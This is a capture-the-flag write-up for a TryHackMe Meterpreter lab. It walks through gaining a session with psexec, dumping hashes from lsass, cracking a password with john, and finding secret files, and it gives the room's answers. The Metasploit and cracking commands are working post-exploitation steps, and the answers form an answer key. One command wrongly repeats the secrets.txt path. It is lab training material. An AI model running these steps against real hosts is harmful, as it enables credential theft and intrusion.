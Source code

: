 ```yaml
---
msf:
  - "Metasploit: Meterpreter\r"
Date: 13 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.30.141
---
```

---
### description: 
Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

[link of the room](https://tryhackme.com/room/meterpreter)
## Task 5 Post-Exploitation Challenge
```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.30.141
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.8.45.125
msf > run
```
![](img/psexec.png)

#### What is the computer name?

```bash
sysinfo
```
![](img/sysinfo.png)
`ACME-TEST`
#### What is the target domain?
FLASH
#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```

![](img/speedster.png)
`speedster`
#### What is the NTLM hash of the jchambers user?

```bash
ps lsass.exe
migrate 756
hashdump
```

![](img/jchambers.png)
`69596c7aa1e8daee17f8e78870e25a5c`
#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](img/echo.png)
![](img/john.png)
`Trustno1`
#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```
![](img/sec.png)
`C:\Program Files (x86)\Windows Multimedia Platform\`
#### What is the Twitter password revealed in the "secrets.txt" file?
![](img/secret.png)
`KDSvbsw3849!`
#### Where is the "realsecret.txt" file located?
```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```
![](img/real.png)
`C:\inetpub\wwwroot\`
#### What is the real secret?
![](img/realsecret.png)
`The Flash is the fastest man alive`

![Room2 complete](room2.png)